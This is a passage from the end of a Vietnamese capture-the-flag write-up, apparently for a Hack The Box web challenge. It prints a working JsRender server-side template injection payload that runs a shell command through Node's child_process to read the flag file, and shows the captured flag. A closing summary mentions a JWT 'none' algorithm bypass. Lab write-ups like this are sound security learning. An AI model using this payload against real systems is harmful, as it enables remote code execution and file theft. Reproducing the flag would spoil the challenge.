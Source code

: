 ```js
\{\{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()\}\}
```
Sau đó chúng ta cùng truy cập lại tài khoản đã tạo trước đó sửa đổi thuật toán như khi trước thực hiện và truy xuất flag <br>
```html
<li class="list-group-item d-flex justify-content-between align-items-center ">
    <span>HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
    </span>
</li>
```
> Flag: HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}<br>
## Tổng Kết <br>
> Những gì tôi học được như sau: <br>
> 1. Bỏ qua tiêu đề thuật toán <b>"JWT":"NONE"</b><br>
> 2. Khai thác RCE thông qua JsRender SSTI<br>
